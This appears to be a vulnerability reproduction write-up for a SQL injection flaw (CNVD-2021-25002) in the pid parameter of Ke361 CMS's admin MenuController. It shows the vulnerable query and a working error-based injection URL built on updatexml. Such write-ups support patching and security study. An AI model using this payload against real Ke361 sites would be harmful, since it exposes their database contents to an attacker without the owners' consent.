 # Ke361 MenuController.class.php Background SQL injection vulnerability CNVD-2021-25002

## Vulnerability Description

Ke361 The pid parameter in the index() function of MenuController.class.php file exists. SQL injection leaks, causing attackers to obtain database sensitive information through vulnerabilities.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ke361</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://gitee.com/jcove/ke361</span>

## Vulnerability reappears

CMS Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232948253.png)

The vulnerable file is `Application/Admin/Controller/MenuController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634136475760-256dded1-8bef-40a2-b391-e3a84bd7fcc2.png)

Get parameter pid pass SQL statement

```php
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

Construct SQL injection using parentheses closed statements

```php
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634140622931-bdc55324-f405-4708-8973-4fef07eeac8e.png)